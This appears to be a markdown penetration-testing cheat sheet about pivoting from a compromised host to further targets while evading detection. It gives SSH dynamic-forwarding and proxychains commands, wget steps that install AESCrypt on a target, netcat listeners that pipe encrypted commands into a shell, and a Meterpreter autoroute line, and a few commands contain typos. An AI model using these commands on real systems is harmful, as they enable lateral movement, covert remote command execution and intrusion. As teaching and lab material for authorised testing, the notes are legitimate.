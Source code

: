 # pivoting
This focuses on pivoting undected (or at least, if you are detected, not much info can be derived from the traffic).

## tools
[sshproxy](https://github.com/montysecurity/sshproxy)
[cryptshell](https://github.com/montysecurity/cryptshell)

## ssh dynamic ports (scenario)
There are 3 boxes in the network, all \*nix machines. One is your attack box, the second is a box you have pwned and the third is a box you want to pwn, but you are at a delima. How do you route your traffic from the attack box, through the pwned box, to the target box?

You will need proxychains installed on the attack box and a working ssh account on the pwned box.

	On Pwned Box
		ssh -D 0.0.0.0:1337 user@localhost
	
	On Attack Box
		ssh -Nnt -D 0.0.0.0:1337 user@pwnedbox
		enter the password
		wait for the connection to establish, nothing prints to STDOUT or STDERR
		press CTRL+Z, this puts the connection in the background, you should be back at the attack box terminal
		verify the connection is still there: netstat -pan | grep 1337
		add the following line to the end of /etc/proxychains.conf: socks4 pwnedbox 1337
		prepend tool commmands with "proxychains ", in this case, proxychains nmap targetbox

### what this is actually doing...
Whenever you run the first ssh command, you are setting up a listener on pwnedbox:1337 using the "user" account, so if a ssh key is involved, remember to use -i. Pushing it to the background is so you can now have access to your tools on the attack box again. When you edit the proxychains file, you are telling the system, "any traffic ran with proxychains activated is to be forced through pwnedbox:1337 (travelling either way)". Then prepending proxychains to the commands is simply invoking the proxy

### diagrams are nice
- Attack Box --> [proxychains] --> [ssh bind on pwnedbox] --> targetbox
- Attack Box <-- [proxychains] <-- [ssh bind on pwnedbox] <-- targetbox

## aescrypt
You can encrypt commands with aescrypt pre-transit, it is easiest to do it with aescrypt and then decrypt them once they get to the traget and pipe to shell. Aescrypt commands can be swapped out with "base64" and "base64 -d" respectively if the target does not have aescrypt but this is encoding and not encryption - it is a quick and easy solution and should only be used to properly transmit the cipher text, not evading detection.

### if target does not have aescrypt
If the target does not have aescrypt, the following are shell commands to get it installed on \*nix machines

#### 32 bit

	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86-Install.gz
	chmod +x AESCrypt-GUI-3.11-Linux-x86-Install 
	./AESCrypt-GUI-3.11-Linux-x86-Install
	rm AESCrypt-GUI-3.11-Linux-x86-Install

#### 64 bit
	
	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	chmod +x AESCrypt-GUI-3.11-Linux-x86_64-Install 
	./AESCrypt-GUI-3.11-Linux-x86_64-Install
	rm AESCrypt-GUI-3.11-Linux-x86_64-Install

### transfering shell commands via aescrypt

	On Target Box
		nc -lnvp targetPort > aescrypt.key
	On Attack Box
                aescrypt_keygen -g 64 aescrypt.key && nc targetBox targetPort < aescrypt.kkey
	On Target Box
		nc -lnvp targetPort | aescrypt -d -k aescrypt.key - | sh
	On Attack Box
		echo "bash commands" | aescrypt -e -k aescrypt.key - | nc targetBox tagetPort

## meterpreter
run post/multi/manage/autoroute
